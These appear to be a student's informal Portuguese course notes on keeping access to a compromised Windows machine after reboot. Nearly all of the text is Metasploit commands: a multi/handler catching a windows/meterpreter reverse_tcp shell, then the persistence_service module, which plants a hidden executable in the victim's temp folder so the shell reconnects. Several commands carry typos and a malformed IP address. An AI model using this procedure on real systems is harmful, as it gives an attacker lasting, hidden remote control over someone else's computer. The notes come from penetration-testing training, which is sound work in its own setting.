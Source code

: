 ## Como manter uma conexão caso a maquina seja reinicia, ou perca conexão

Até agr o usuario precisa reclicar no nosso executavael

vamos configurar um Script persistente

Onde vamos usar o meterpreter e o meterploit 

Vamos de Kali, e reconectar no nosso alvo para garantir

### Iniciando a sessão Zero

multhander

▶️ use exploit/multi/handler
▶️set payload windows/meterpreter/reverse_tcp
▶️ set lhost 192.168.0.0
▶️ set Lport 4444
▶️ show Options
▶️ exploit

Meterpreter iniciado
▶️backgoround

### Modulo de persistencia

Nosso exploid de conexão persistente, ele cria um executavel dentro da pasta de arquivos temporarios, assim ele não é eleiminado quando erinicamos.
▶️ use exploit/windows/local/persistencie_service

▶️ show options  (ver as configurações e configurar a sssions)
▶️ set session 1
▶️ set lhost 192.168.0.0
▶️ set lport 2022
▶️ exploit

Erro ! Precisamos escalar o privilegio, o professor trolou, precisa fazer o que fizemos no resto dos MODULOS AAAAAAAAAAAAAAAAAAAAAA

## Exploit de persistencia

▶️ use exploit/windows/local/persistence_service
▶️ session
▶️ set session XX
▶️ Ser lhost 192.168.0.0
▶️ set lport 2022
▶️ exploit


[[ Dentro ]]

Aqui iniciamos nossa sessão do meterpreter dentro da vitima.
vamos encontrar ele dentro dos dados temporarios, precisa ser adm para poder ver, e esse car é mega escondido

Para esse monstro estar funcionando o nosso session em kali deve ta On

para se reconectar

▶️ set payload windows/meterpreter/reverse_tcp
▶️ set lhost 192.0.0.
▶️ set lport 2022
▶️ show options
▶️ explot
